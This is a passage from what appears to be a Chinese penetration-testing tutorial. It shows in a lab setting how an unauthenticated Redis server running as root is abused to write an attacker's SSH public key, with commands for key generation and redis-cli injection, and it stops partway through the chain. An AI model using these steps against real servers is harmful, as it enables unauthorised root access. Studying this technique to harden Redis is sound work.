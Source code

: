 -   Redis 服务使用 ROOT 账号启动
    
-   服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.
    

**实例**

1.  靶机中开启redis服务：`redis-server /etc/redis.conf`
    
2.  在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录
    

在攻击机中生成ssh公钥和私钥，密码设置为空：

```plain
ssh-keygen -t rsa
```

[![](assets/1702372985-2ec4bff025afb91fefe6574e56cafe3a.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/12.png)

进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```plain
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```

[![](assets/1702372985-3c00587120fb794b50b2beaddd49a7f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/13.png)

链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```plain
  cat test.txt | redis-cli -h <hostname> -x set test
```

[![](assets/1702372985-2d9ca6626d4f6080d6b2fed658fcd899.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/14.png)
